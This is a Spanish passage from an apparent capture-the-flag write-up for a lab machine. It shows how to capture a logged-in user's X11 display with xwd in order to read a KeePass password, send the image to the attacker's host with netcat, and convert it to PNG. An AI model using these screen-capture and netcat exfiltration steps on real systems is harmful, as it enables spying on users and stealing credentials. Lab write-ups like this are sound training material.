 ```bash
❯ keepass2john Passwords.kdbx
! Passwords.kdbx : File version '40000' is currently not supported!
```

Si vamos a `hacktricks` podemos sacar una captura de pantalla por que cuando checamos la conexion vimos algo del `keypass` tal vez el usuario tiene abierto eso y podemos sacar la captura de pantalla para ver la contraseña 

```bash
alex@squashed:/tmp$ xwd -root -screen -silent -display :0 > screenshot.xwd
```

```bash
alex@squashed:/tmp$ file screenshot.xwd 
screenshot.xwd: XWD X Window Dump image data, "xwdump", 800x600x24
alex@squashed:/tmp$ 
```

Vamos a traernolo a nuestra maquina de atacante

```bash
❯ nc -nlvp 443 > screenshot.xwd
listening on [any] 443 ...
```

```bash
alex@squashed:/tmp$ nc 10.10.14.8 443 < screenshot.xwd
```

Y lo recibimos

```bash
❯ nc -nlvp 443 > screenshot.xwd
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.191] 34718

```

Ahora tenemos que convertirlo a `.png`

```bash
❯ convert screenshot.xwd screenshot.png
```

```bash
❯ file screenshot.png
screenshot.png: PNG image data, 800 x 600, 8-bit/color RGB, non-interlaced

```

Aqui vemos la captura de pantalla
